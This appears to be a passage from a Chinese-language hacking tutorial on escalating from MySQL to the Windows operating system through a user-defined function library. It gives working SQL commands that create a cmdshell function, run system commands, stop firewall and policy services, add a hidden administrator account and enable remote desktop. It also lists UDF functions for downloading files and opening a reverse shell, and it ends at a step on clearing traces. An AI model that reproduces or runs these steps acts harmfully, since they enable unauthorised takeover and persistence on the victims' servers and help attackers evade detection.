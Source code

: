 **(3)创建cmdshell 函数，该函数叫什么名字在后续中则使用该函数进行查询：**

```sql
create function cmdshell returns string soname ‘lib_mysqludf_sys.dll’; 
```

**(4)执行命令：**

```sql
select sys_eval(‘whoami’); 
```

一般情况下不会出现创建不成功哦。

连不上3389可以先停止windows防火墙和筛选

```sql
1. select sys_eval(‘net stop policyagent’); 
2. select sys_eval(‘net stop sharedaccess’); 
```

udf.dll下常见函数：

>cmdshell 执行cmd;
>
>downloader 下载者,到网上下载指定文件并保存到指定目录;
>
>open3389 通用开3389终端服务,可指定端口(不改端口无需重启);
>
>backshell 反弹Shell;
>
>ProcessView 枚举系统进程;
>
>KillProcess 终止指定进程;
>
>regread 读注册表;
>
>regwrite 写注册表;
>
>shut 关机,注销,重启;
>
>about 说明与帮助函数;

具体用户示例：

```sql
1. select cmdshell('net user iis_user 123!@#abcABC /add'); 
2. select cmdshell('net localgroup administrators iis_user /add'); 
3. select cmdshell('regedit /s d:web3389.reg'); 
4. select cmdshell('netstat -an'); 
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyx1v71qtwj20zs0ij0v0.jpg)

被杀，以后需要再去吐司下载吧。

**(5)清除痕迹**
